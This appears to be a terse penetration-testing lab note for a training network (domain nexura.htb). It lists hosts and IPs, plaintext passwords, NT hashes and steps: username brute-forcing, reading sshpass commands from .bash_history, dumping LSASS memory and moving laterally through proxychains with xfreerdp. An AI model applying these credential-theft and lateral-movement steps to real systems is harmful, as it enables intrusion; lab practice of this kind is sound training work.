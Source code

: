 
| Host     | IP Address                                                    |
| -------- | ------------------------------------------------------------- |
| `DMZ01`  | 10.129.243.132 **(External)**, `172.16.119.13` **(Internal)** |
| `JUMP01` | `172.16.119.7`                                                |
| `FILE01` | `172.16.119.10`                                               |
| `DC01`   | `172.16.119.11`                                               |
|          |                                                               |
|          |                                                               |
|          |                                                               |
Employee name: Betty Jayde 

Password: `Texas123!@#`
Brute-forced Username: `jbettty`


Username: hwilliam
Password: dealer-screwed-gym1
1. Used username-anarchy to create a username list. 
2. bruteforced into DMZ01 using username list and Texas123!@# as password. 


Reading the contents of .bash_history:
sshpass -p "dealer-screwed-gym1" ssh hwilliam@file01


**DMZ01**

jbetty: xiao-nicer-wheels5

**Domain Users:**

bdavid: caramel-cigars-reply1  
stom: fails-nibble-disturb4  
hwilliam: warned-wobble-occur8

Dumped the LSASS mem to a file and transferred the file over using the following method: 

proxychains xfreerdp /u:bdavid /p:'caramel-cigars-reply1' /d:nexura.htb /v:172.16.119.7 +home-drive

NT Hashes

stom:21ea958524cfd9a7791737f8d2f764fa
bdavid:82c5ef7f2612567964070d04fe46a5d0

